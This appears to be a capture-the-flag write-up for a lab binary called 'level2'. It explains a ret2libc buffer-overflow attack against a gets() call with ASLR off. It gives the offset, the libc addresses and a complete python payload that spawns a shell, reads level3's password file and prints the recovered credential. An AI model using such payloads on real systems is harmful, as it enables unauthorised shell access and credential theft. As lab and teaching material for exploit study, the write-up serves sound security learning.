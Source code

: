 # Level2

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level2
  randomstring
  randomstring
```

> It looks like the programs only prints what you write on standard input.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). Like the previous level, this one uses `gets()`, so we can do a **buffer overflow** once more but this time there is no planned way to spawn a shell inside the program.

After some research we find that since **ASLR** is off, we could do what's called a [`ret2libc attack`](https://shellblade.net/files/docs/ret2libc.pdf). For this to work we only need to find:

- The buffer offset.
- The Addresses of `system()`, `exit()` and one `ret` instruction.
- The Address of the string `/bin/sh`.

Once we get those, we use the buffer overflow to override the list of instruction stored in **EIP register** once again to execute a `system("/bin/sh"); exit();` basically. Thanks to our `gdb` analysis we get:

- Offset is **80**.
- `ret` instruction: `0x0804853e`
- `system()` function: `0xb7e6b060`
- `exit()` function: `0xb7e5ebe0`
- `/bin/sh` string: `0xb7f8cc58`

The attack is constructed as follow: first induce the overflow then trigger a ret instruction followed by a call to `system()` then `exit()` and finally `/bin/sh` by pushing their addresses in this order on top of EIP. Using the `cat` trick like in previous level, we'll get a working shell running as `level3`.

```shell
  $> (python -c "print '\x90' * 80 + '\x08\x04\x85\x3e'[::-1] + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1]"; cat) | ./level2
  cat /home/user/level3/.pass
  492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

So next user credentials pair is `level3:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`.

Check [here](./source.c) for reproduction source-code of this binary.